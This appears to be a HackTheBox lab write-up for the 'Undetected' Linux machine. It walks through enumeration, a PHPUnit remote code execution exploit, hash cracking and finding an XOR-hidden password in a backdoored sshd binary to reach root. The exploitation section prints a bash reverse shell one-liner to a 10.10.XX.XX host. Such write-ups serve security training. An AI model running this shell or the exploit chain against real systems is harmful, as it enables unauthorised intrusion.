# Undetected HackThebox Writeup
### Level: `Medium` | OS: `Linux`



## Scanning
We run nmap on all ports with scripts and software versions.



## Enumeration
We access the website and review the different sections and the source code.


We see a section called "*store*", it shows a direct link and we can list a valid subdomain.


We add the subdomain to our file "*/etc/hosts/*.

We access the store subdomain and we see an online shopping cart.


According to them, the site does not accept orders, so they may have another web resource on another subdomain, we tried to take out subdomains by forcing vhost, but without success.



We launch the **dirsearch** tool, we manage to list multiple paths where directory listing usually exist.


##### Example of directory listing:



## Exploitation
We checked the software versions in the "*installed.json*" file for vulnerabilities and exploits, and found that **PHP Unit version 4.0.8** is vulnerable to remote code execution (RCE).



#### Exploit: [PHP Unit 4.8.28 - Remote Code Execution (RCE) (Unauthenticated) - PHP webapps Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/50702)

We download and run the exploit, we see that it works perfectly in this proof of concept.



We put a **netcat** and run a reverse shell to have a more interactive one.



##### Code used:
```bash
/usr/bin/bash -c "bash -i >& /dev/tcp/10.10.XX.XX/443 0>&1"
```

We searched for files and found the "*info*" file in backups, it looks like it is running a **bash** with a hexadecimal string.



Decoding the content, we see that a script is being executed in which a hash of a user is hardcoded. 



We put the hash in a file and crack it with **john**:



We check the "*/etc/passwd*" and find the users, try the password with both users and one works. 

We see that we can also read the flag of *user.txt*.




## Privilege Escalation
We launch the **linpeas.sh** script to perform a deep and fast reconnaissance of the system, we see that it is vulnerable to *Polkit* and *Pwnkit*, but we will try not to exploit these paths.



We identify the user *Steven's* path to his mailbox.



We read the email left by the root user, it seems that they are having difficulties with the **Apache service** and the website, while they investigate the problem they have left a temporary password to authenticate us on the server. But where?   



Assuming the team is scared, I assume that file is one of the last things they have modified or deployed to the server. So we look for the last modified files by date, we find a library called "*mod_reader.so*":



We transfer it to our machine and use **strings** on it, we find a string that looks like **base64**:



We see that the **wget** binary is being executed on an image and on the **sshd** binary, but this does not make any sense... Unless that **sshd** is not what it looks like.



We transfer the **sshd** binary, compare the hashes and see that they are different, so it could be the file we are looking for "*camouflaged*" in the system.



We open the file with **Ghidra**, list a function called "*backdoor*" and it seems to contain an authentication for the **SSH** service.



In this code trace it is very clear, it is performing a comparison of both strings, therefore it is validating a password that is hardcoded in the binary.


We reviewed the code of the "*backdoor*" function, we found several variables with **hexadecimal** values:



Then we see that there is a loop where it is storing the content of the previous variables and computing them in **XOR** with the key "*0x96*" in **hexadecimal**.



We used the online tool **Cyberchef**, inserted the parameters and managed to obtain the password in plain text.



We connect via **SSH** with the root user and read the *root.txt* file:



---
## About

David Utón is Penetration Tester and security auditor for web and mobiles applications, perimeter networks, internal and industrial corporate infrastructures, and wireless networks.

#### Contacted on:

 [David-Uton](https://www.linkedin.com/in/david-uton/)
 [@David_Uton](https://twitter.com/David_Uton)